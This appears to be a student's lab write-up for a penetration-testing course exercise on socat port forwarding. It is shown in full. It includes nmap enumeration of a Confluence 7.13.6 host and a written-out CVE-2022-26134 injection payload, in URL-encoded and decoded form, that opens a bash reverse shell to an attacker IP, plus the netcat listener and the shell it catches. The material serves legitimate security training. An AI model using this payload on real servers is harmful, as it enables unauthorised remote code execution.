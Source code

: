 # Port Forwarding w/ socat

2. **Capstone Exercise**: Use the password found in the previous question to create a new port forward on CONFLUENCE01 and gain SSH access to PGDATABASE01 as the _database_admin_ user. What's the value of the flag found in **/tmp/socat_flag** on PGDATABASE01?

- Enumerate discovered IP
```bash
sudo nmap -Pn 192.168.247.63
	PORT     STATE SERVICE
	22/tcp   open  ssh
	8090/tcp open  opsmessaging
	
	Nmap done: 1 IP address (1 host up) scanned in 1.16 seconds

sudo nmap -sV 192.168.247.63 -p 8090
	PORT     STATE SERVICE       VERSION
	8090/tcp open  opsmessaging?
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
	SF-Port8090-TCP:V=7.94SVN%I=7%D=5/14%Time=6643E8FF%P=x86_64-pc-linux-gnu%r
	SF:(GetRequest,22F,"HTTP/1\.1\x20302\x20\r\nCache-Control:\x20no-store\r\n
	SF:Expires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nX-Confluenc    "#<--NOTE nX-Confluence
	SF:e
```

- Browse to 192.168.247.63:8090
- Wappalyzer shows Atlassian Confluence v7.13.6
- Search for exploits (atlassian confluence 7.13.6 exploit)
	- 1st result: [Rapid7 write-up](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/)
  
- Grab payload
```perl
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

- Verify decoded content
```scss
${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}
```

- Change to work for our scenario
```perl
curl -v http://192.168.247.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.154/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

- Start nc listener in Tab1, run curl command in Tab2.  Catch reverse shell in Tab1
```bash
# Tab 1
nc -nlvp 1270
	listening on [any] 1270 ...
	connect to [192.168.45.154] from (UNKNOWN) [192.168.247.63] 48350
	bash: cannot set terminal process group (2086): Inappropriate ioctl for device
	bash: no job control in this shell
	bash: /root/.bashrc: Permission denied
	confluence@confluence01:/opt/atlassian/confluence/bin$
```
